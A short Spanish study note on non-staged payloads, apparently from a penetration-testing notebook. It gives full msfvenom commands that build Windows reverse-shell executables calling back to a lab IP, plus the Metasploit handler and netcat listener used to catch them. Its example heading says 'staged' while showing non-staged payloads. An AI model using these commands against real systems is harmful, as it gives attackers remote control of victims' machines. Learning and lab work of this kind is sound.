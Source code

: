 Un "payload non-staged" (carga útil no escalonada) es una forma de diseño de exploits o herramientas de penetración en ciberseguridad donde la carga útil se envía y ejecuta de manera completa y directa en el sistema objetivo en una sola fase. A diferencia de los "[[payload staged]]" que se dividen en múltiples etapas, los "payloads non-staged" se ejecutan de manera inmediata y completa una vez que se activa el exploit.

En el contexto de un ataque informático, un "payload non-staged" se carga en la memoria del sistema objetivo y se ejecuta sin la necesidad de establecer una conexión previa o dividir el proceso en múltiples etapas. Esto puede ser útil en situaciones donde la simplicidad y la velocidad de ejecución son prioritarias, o cuando no es necesario evadir medidas de seguridad específicas que puedan detectar las técnicas de "staging".

Ejemplo de payload staged:

En este caso estamos utilizando [[metasploit]]:

- Con el siguiente comando creamos un archivo ejecutable específicamente para la plataforma Windows:
```msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe```
- Una vez la máquina victima tiene el archivo, ingresamos a msfconsole desde la máquina atacante y aplicamos los siguientes comandos en base al sistema que estemos atacando:
```use exploit/multi/handler```
```set payload windows/x64/meterpreter_reverse_tcp```
```set LHOST 192.168.111.45``` En este caso esta es nuestra IP
```run``` Una vez esté todo configurado ya podemos correr el payload que generamos

---
Si requieres utilizar netcat o alguna otra shell distintas puedes cambiar el [[msfvenom]] de la siguiente forma:
```msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe```

Una vez la máquina victima tiene el archivo, ingresamos a el siguiente comando dentro de la máquina del atacante:
```nc -nlvp 4646```

